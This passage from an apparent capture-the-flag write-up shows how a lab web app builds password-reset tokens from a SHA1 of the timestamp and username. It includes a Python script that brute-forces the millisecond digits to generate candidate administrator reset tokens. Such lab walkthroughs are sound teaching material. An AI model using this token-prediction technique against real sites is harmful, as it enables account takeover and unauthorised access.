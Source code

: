 
## Third Flag

Looking at the source code in `app.py`, we discover two usernames from the comments.

- `jane`
- `clarice`

We learn the existence of the `database.sql` file from the comments.

>`Execute "database.sql" before using this`

We also discover a couple of endpoints.

- `/administrator`: The login page, upon logging in, redirects to `/dasboard`.
- `/forgot_password`: Given a username with a `POST` request, it generates a token and updates the database with it.
- `/password_reset`: Currently, it only compares the user-given token to one from the database.


Looking at how the password reset tokens are generated at the `/forgot_password` endpoint, it only uses the current time and username.

```python
if cursor.fetchone():
	value = datetime.datetime.now()
	lnk = str(value)[:-4] + " . " + username.upper()
	lnk = hashlib.sha1(lnk.encode("utf-8")).hexdigest()
	sql = "UPDATE reset_token SET token=%s WHERE username = %s"
	cursor.execute(sql, (lnk, username))
	connection.commit()
```

The server already returns us the current time for it; with the `Date` header, we only need to brute-force the two digits of miliseconds to generate a valid token.

Requesting a password reset token for the `administrator` user using the `/forgot_password` endpoint.

![Web Server Forgot Password Request](web_8080_forgot_password_request.webp){: width="800" height="400" }

After updating the value with the time we got from the `Date` header, we can use this Python script to generate tokens.

```python
import datetime
import hashlib

username = "administrator"

for i in range(0,100):
	i = str(i).rjust(2, "0")
	value = "2024-03-30 00:08:04." + i
	lnk = value + " . " + username.upper()
	lnk = hashlib.sha1(lnk.encode("utf-8")).hexdigest()
	print(lnk)
```
{: file="generate_tokens.py"}
